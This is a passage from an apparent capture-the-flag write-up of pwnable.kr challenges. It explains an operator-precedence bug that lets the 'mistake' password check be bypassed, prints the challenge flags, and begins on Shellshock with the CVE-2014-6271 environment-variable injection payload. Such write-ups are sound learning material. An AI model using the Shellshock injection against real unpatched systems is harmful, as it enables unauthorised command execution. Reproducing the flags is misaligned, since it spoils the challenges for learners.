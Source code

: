 ```My daddy has a lot of ARMv5te muscle!```
      return 0;
    }
    printf("input password : ");
    scanf("%10s", pw_buf2);

    // xor your input
    xor(pw_buf2, 10);

    if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
      printf("Password OK\n");
      system("/bin/cat flag\n");
    }
    ```
    * According to the hint, the problem lies in the [operator priority](https://en.cppreference.com/w/c/language/operator_precedence)
      * It turns out that ```<``` and ```>``` has higher priority than ```=```
    * ```fd=open("/home/mistake/password",O_RDONLY,0400) < 0```
      * fd is actually not the open file's descriptor but 0 which is stdin
      * Thus ```len=read(fd,pw_buf,PW_LEN) > 0``` is reading from stdin and write to pw_buf
    * The plaintext and its corresponding ciphertext can be specified by the user
    * The sleep function is helping us to get enough time for typing characters to stdin
  * xor
    ```c
    for(i=0; i<len; i++){
      s[i] ^= XORKEY;
    }
    ```
    * The xor function is working properly
### Exploit
```sh
mistake@pwnable:~$ ./mistake
do not bruteforce...
AAAAAAAAAA
input password : @@@@@@@@@@
Password OK
```
### Flag
```Mommy, the operator priority always confuses me :(```

## shellshock
### Description
> Mommy, there was a shocking news about bash.  
> I bet you already know, but lets just make it sure :)
> 
> ssh shellshock@pwnable.kr -p2222 (pw:guest)
### Overview
* Code review
  ```c
  system("/home/shellshock/bash -c 'echo shock_me'");
  ```
  * The program will execute bash
* ShellShock
  * Related CVE
    * CVE-2014-6271
  * Payload
    * ```env x='() { :;}; echo HACK' bash -c :```
  * Description
    * Bash
      * A terminal prompt and also a **scripting language**
      * Define function
        * ```$ yayfedora() { echo "Fedora is awesome."; }```
      * Execute defined function
        * ```